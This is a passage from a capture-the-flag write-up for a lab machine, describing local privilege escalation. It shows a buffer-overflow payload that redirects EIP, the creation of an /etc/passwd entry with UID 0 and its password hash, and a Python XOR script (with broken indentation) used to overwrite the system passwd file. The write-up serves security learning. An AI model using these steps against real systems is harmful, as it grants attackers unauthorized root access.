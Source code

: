 ```
   0x5655587e <+35>:    movl   $0x0,-0x78(%ebp)                                                                                                        
   0x56555885 <+42>:    movl   $0x0,-0x74(%ebp)                                                                                                        
   0x5655588c <+49>:    movl   $0x0,-0x70(%ebp)
   0x56555893 <+56>:    movl   $0x0,-0x94(%ebp)
```

The function starts at `0x5655585b`.
Now we can add that to our buffer overflow to overwrite EIP and force us to the encrypt function.
```bash
$ python -c "print('\x41' * 44 + '\x5b\x58\x55\x56')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
Enter Input File:
```

Yes! It is working, and now is asking for the "Input File".
Going back into Ghidra, we take a closer look at the encrypt function. The program’s purpose is to take a file and encrypt it in a new location. It does this by reading the file and XOR'ing it with `0x9b`. 

Our plan is to create a copy of `/etc/passwd` and add a new root user. We’ll then use the program to encrypt and overwrite the system `/etc/passwd` with our modified copy.

We will manually encrypt our modified passwd file first prior to passing it through the program. An encrypted value XOR’ed by the same key (0x9b) should give us the original cleartext `/etc/passwd`. In other words, the encryption program will actually decrypt our passwd file when it overwrites `/etc/passwd`.

Create the new hash for user `caue` with password `pass123`:
```bash
$ openssl passwd -1 -salt caue pass123
$1$caue$UbuBXypuA7ZQh9kxbERnQ/
```

Make a copy of `/etc/passwd` and add our user with root privileges:
```
tester@overflow:~$ cp /etc/passwd /tmp/passwd
tester@overflow:~$ echo 'caue:$1$caue$UbuBXypuA7ZQh9kxbERnQ/:0:0:root:/root:/bin/bash' >> /tmp/passwd

```

Next we encrypt our modified `/tmp/passwd` file. To do this, I wrote a simple python script:
```python encrypt_file.py
#!/usr/bin/python3

source = open('/tmp/passwd', 'rb').read()  
dest = open('/tmp/passwd2', 'wb')

for i in source:  
dest.write(bytes([i ^ 0x9b]))
```
